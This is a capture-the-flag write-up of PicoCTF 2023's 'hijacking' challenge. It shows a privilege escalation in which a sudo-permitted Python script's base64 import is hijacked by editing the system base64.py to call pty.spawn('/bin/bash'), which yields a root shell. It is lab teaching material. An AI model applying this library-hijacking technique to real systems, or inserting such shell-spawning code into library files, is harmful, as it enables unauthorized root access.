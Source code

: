 ```yaml
---
title: Hijacking PicoCTF 2023
published: Apr 1, 2023
language: English
---
```


# hijacking

**200 points**

AUTHOR: THEONESTE BYAGUTANGAZA

Description
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

_Note:_ This challenge launches an instance on demand.

---

This challenge was solved by Kubana in my team.

So, google searching `using python for privilege escalation in linux` I got an [article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) which detailed how to do just that (except the spawning shell part which I got from a youtube video).

Connecting to the server I checked what I can run with sudo with `sudo -l` and got:

```
User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

Cool we can run the script with sudo.

Now inside the script we have an import of `base64`, we could hijack a function used by this library.

I changed the code to just run the commands:

```python
hi = "hi"
out = base64.b64encode(hi.encode('utf-8')).decode('utf-8')

print(out)

```

We need to hijack the function `b64encode` specifically to get root, and we could do so by editing the original library `base64.py`.

The file was located inside `/usr/lib/python3.8/base64.py` so running `vim` on it, I could edit the file.

I imported `pty` and at the start of the function `b64encode`, I added the line:

```python
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    pty.spawn('/bin/bash')

    #code...
```

Finally, we can run the file with `sudo /usr/bin/python3 /home/picoctf/.server.py` got me a root shell!

Going into the directory `/challenge` and catting the file gives the flag:

> picoCTF{your flag}
